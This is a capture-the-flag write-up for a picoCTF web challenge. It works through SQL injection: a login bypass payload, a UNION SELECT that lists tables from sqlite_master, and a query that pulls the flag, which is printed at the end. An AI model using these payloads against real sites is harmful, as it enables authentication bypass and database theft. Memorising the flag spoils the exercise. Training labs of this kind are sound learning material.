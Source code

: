 # More SQLi

## Description

Can you find the flag on this website.
Try to find the flag here.

## Solution

Login with sqli bypass

```
username : '' OR 1=1-- '
password : '' OR 1=1-- '
```

On search bar, do sqli payload to exploit database.

```
' UNION SELECT 1, name, 3 FROM sqlite_master WHERE type='table'--
```
to dump tables from sqlite_master

![moresqli](https://i.imgur.com/WJF9nuK.png)

then, dump the data from table
```
' UNION SELECT 1, flag, 3 FROM more_table WHERE flag LIKE '%picoCTF%'--
```

## Flag
    picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}